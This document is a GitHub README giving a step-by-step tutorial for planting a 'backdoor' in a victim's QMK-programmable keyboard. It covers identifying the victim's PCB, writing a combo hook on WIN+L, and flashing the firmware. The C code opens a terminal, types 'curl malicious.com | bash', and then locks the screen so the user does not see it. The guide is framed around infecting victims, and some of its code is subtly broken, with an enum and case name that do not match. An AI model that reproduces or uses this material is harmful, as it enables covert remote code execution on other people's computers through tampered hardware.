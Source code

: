 # QMKhuehuebr
This repo will teach you how to create a "backdoor" on a keyboard using qmk firmware.

## What's QMK?
It's a open source keyboard firmware, read the [documentation](https://docs.qmk.fm) to learn more about. 

## How this "Backdoor" works?
It creates a hook of lock screen bind using the [qmk combo](https://docs.qmk.fm/#/feature_combo?id=combos) feature, so when the user locks the computer, his keyboard will start acting like a [rubberducky](https://www.youtube.com/watch?v=JwLRjNPrO2c) or "possessed" keyboard writting commands by himself.

## Steps to get a Shell
### Keyboard Recon
The more important step is recognize which PCB your victm's keyboard uses, you can do this by,
* Social Engineering
* Opening the keyboard case
* Being a keyboard's guru.

### Get QMK Firmware Project
```bash
git clone https://github.com/qmk/qmk_firmware.git
cd qmk_firmware
util/(linux|macos)_install.sh
```

### Enabling and Configuring Combos feature
Now that you know your victm's keyboard PCB, go to,
`
qmk_firmware/keyboards/<PCB_MODEL>/
`
Then add the line `COMBO_ENABLE = yes` at the last line of file `rules.mk`, to enable the usage of combos and the follow lines at the last line of file `config.h`
```
#define COMBO_COUNT 1
#define COMBO_TERM 300
```
The `COMBO_COUNT` variable is the number of combos/hooks you'll configure, and the `COMBO_TERM` is the time in milliseconds for the firmware detects the key combination/combo.

### Creating the Combos/Hooks
Copy the default keymap to a new keymap named keylogger,
```bash
cd qmk_firmware/keyboards/<PCB_MODEL>/keymaps
mkdir keylogger
cp -R default/* keylogger
cd keylogger/
```
Edit the file `keymap.c` to insert your malicious code after the `#include "action_layer.h"` line, the first thing you need to do is create an enum with your hook name,
```C
enum combo_events {
  LOCK_SCREEN
}
```
Then you need to set the keys combination you want to hook, in this example let's hook the WIN+L lock screen bind,
```C
const uint16_t PROGMEM lock_screen_combo[] = {KC_LGUI, KC_L, COMBO_END};
```
If you want to hook other keys just look at this [qmk documentation page](https://beta.docs.qmk.fm/features/keycodes_basic) where you can find a list with all keyscodes.

### Giving actions to Combos/Hooks
Now the last part of coding is add an action when the firmware detect the combo/hook, for way to do this, let's keep editing the `keymap.c` and declare the function bellow which is responsible for the detection and injection,
```C
void process_combo_event(uint8_t combo_index, bool pressed) {
	switch(combo_index) {
		case LOCK_SCREEN_X:
			if (pressed) {
				// SEND THE COMBINATION KEYS TO OPEN TERMINAL WIN+ENTER
				register_code(KC_LGUI);
				register_code(KC_ENTER);
				// RELEASE THE KEYS TO OPEN THE TERMINAL
				unregister_code(KC_ENTER);
				unregister_code(KC_LGUI);
				//WAIT 500 MILLISECONDS FOR THE TERMINAL OPEN
				_delay_ms(500);

				//SEND COMMAND USING THE MACRO SEND_STRING WHICH SENDS KEYCODE BY KEYCODE WITHOUT DELAY
				SEND_STRING("curl malicious.com \\| bash ; exit" SS_TAP(X_ENTER));

				//SEND THE ORIGINAL KEYCODES RESPONSIBLE TO LOCK THE COMPUTER
				register_code(KC_LGUI);
				register_code(KC_L);
				// RELEASE THE KEYS RESPONSIBLE TO LOCK THE COMPUTER
				unregister_code(KC_L);
				unregister_code(KC_LGUI);
			}
	}
break;
}
```
### Compile the code
go back to the qmk project root directory and run
```bash
make <KEYBOARD_PCB>:keylogger
```
If there was no erros, you did everything right and is ready to move on.

### Boot Mode
In order to put the keyboard on boot mode, follow the QMK [instruction](https://docs.qmk.fm/#/newbs_flashing?id=put-your-keyboard-into-dfu-bootloader-mode)

### Write the malicious firmware
Just run the command,
```bash
sudo make <KEYBOARD_PCB>:keylogger:dfu
```
Now after all these steps you have succefully infected your victms keyboard.

### Learn more about QMK
[RTFM](https://docs.qmk.fm/)

# Example
You can find a more complex example of [keymap.c](xd60/keymaps/keylogger/keymap.c) on this repository.

**IMPORTANT - This file is based on xd60 PCB.**

# Poc 
PoC usign a xd60 PCB
[![CODE_IS_CHEAP_SHOW_ME_THE_DEMO](http://img.youtube.com/vi/CbhiKdS48lc/0.jpg)](http://www.youtube.com/watch?v=CbhiKdS48lc)
